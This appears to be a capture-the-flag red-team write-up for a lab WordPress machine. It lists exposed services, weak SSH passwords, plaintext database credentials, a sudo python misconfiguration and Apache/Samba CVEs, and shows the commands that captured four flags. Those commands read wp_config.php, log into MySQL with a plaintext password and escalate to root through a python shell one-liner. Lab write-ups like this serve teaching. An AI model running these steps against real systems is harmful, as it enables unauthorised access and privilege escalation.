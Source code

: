 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:




This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 (SSH)
  - Port 80 (HTTP)
  - Port 111 (rpcbind)
  - Port 139 (netbios/smb)
  - Port 445 (netbios/smb)

The following vulnerabilities were identified on each target:
- Target 1
   - SSH with Password
-Users are able to ssh into the machine with simply a password, rather than requiring an SSH key.
-User michael had an incredibly weak password (same as his username).
   - python can run with sudo
- User steven has the ability to run python with sudo
- Python can execute arbitrary code on the system, so it is trivial to get a shell with root access using this loophole
   - Database credentials in plain text
- Database credentials for the wordpress site were found written in plain text, and stored in the /var/www/html/wp_config.php.
- This allowed us to access the mysql database used for the site, and extract password hashes and other confidential information.
   - CVE-2017-3167
- Authentication bypass is possible on the version of Apache running on the server
   - CVE-2017-7494
- Version of samba running on the server is insecure and allows for remote code execution

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      -Weak Password / SSH with password
	-After SSHing into the host with michael's credentials, we were able to search the /var/www/html directory for flag1. 
      - Command run
	-ssh michael@192.168.1.100
-cd /var/www/html
-grep -ER flag1
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      -Weak Password / SSH with password
	-After SSHing into the host with michael's credentials, flag2 was found right in /var/www
      - Command run_
	- ssh michael@192.168.1.100
- cd /var/www
- cat flag2.txt

  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Database credentials in plain text
	- After getting the database credentials from /var/www/html/wp_config.php, we connected to the mysql database and searched for the flag.
      - Command run
	- ssh michael@192.168.1.100
- less /var/www/html/wp_config.php
- mysql --user root --password # Password is R@v3nSecurity
-mysql> SELECT post_title, post_content FROM wp_posts WHERE post_title LIKE "flag%";
- This returned the value for flag 3
  - `flag4.txt`: flag4.txt: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - python can run with sudo
	-After cracking steven's password using john and the hash found in the database, we determined that user steven could run python with sudo permissions.
-This allows us to use python as sudo to execute a shell program, thereby granting us access to the root account.
- flag4.txt was found in the /root directory, the root account's home directory.

      - Commands run
- python -c 'import os; os.system("/bin/sh")'
- cat flag4.txt

